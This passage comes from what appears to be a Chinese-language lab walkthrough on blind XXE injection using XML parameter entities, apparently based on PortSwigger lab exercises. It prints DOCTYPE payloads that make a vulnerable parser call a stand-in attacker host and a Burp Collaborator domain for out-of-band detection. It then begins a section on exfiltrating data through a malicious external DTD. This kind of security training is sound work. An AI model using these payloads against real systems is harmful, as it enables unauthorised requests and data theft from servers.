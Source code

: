 1. 一般使用常规实体的XXE攻击会被阻止，因为应用程序进行了一些输入验证，或者使用的XML解析器进行了一些加固。在这种情况下，可以改用XML参数实体。  
  
XML参数实体是一种特殊类型的XML实体，只能在DTD中的其他位置引用  
1. XML参数实体的声明在实体名称前包含百分比字符：  
  
```
<!ENTITY % myparameterentity "my parameter entity value" >

```  
1. 使用%百分比字符而不是通常的&号引用参数实体：  
  
```
%myparameterentity;

```  
1. XML参数实体使用带外检测来测试盲XXE：  
  
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>

```  
### 实验4：通过XML参数实体进行带外交互的盲XXE  
  
**实验目标：**  
- 此实验室具有一个 “Check stock（库存检查）” 功能，它可以解析 XML 输入，但不显示任何意外值，并阻止包含常规外部实体的请求。  
  
- 若要解决实验室问题，请使用**参数实体**  
使 XML 解析器向 Burp Collaborator 发出 DNS 查找和 HTTP 请求。  
  
抓包，修改 以 “参数实体” 的形式重新构造攻击载荷：  
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://0bcnp943uku90zdg2nnhguvvemkd85wu.oastify.com"> %xxe; ]>

```  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlJpgLgckTXIaQyDkDy2luAT4G5hA6XbNcouz0QgcmhCMvAEUu5OticEg/640?wx_fmt=png&from=appmsg "")  
切换至 Collaborator 选项卡，等待一会儿，可以看到域的 DNS/HTTP 信息，说明带外交互成功。![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlWk8ibExezGQaVn25lRiafCYeOhcyicXf24an9VqgC39ibuHdibXWMwS0Q6g/640?wx_fmt=png&from=appmsg "")  
“实体” 与 “参数实体” 之间有什么区别？  
- 上图为“实体”  
  
- 下图为“参数实体”  
  
1、定义的语法有所不同  
- “实体” 是默认的定义语法  
  
- “参数实体” 使用了默认的语法，但，在每个实体的前方，都要添加一个符号%  
  
2、调用实体的方式不同  
- “实体” 需要在某个 XML 参数中进行调用，使用符号&  
进行调用  
  
- “参数实体” 的调用紧跟在定义的后方，使用符号%  
进行调用  
  
## 6.3 利用盲 XXE 从带外提取数据  
1. 通过带外技术检测一个隐蔽的XXE漏洞是非常好的，但它实际上并不能证明该漏洞是如何被利用的。攻击者真正想要实现的是泄露敏感数据。这可以通过隐蔽的XXE漏洞实现，但它涉及攻击者在其控制的系统上托管恶意DTD，然后从带内XXE有效负载内调用外部DTD。  
  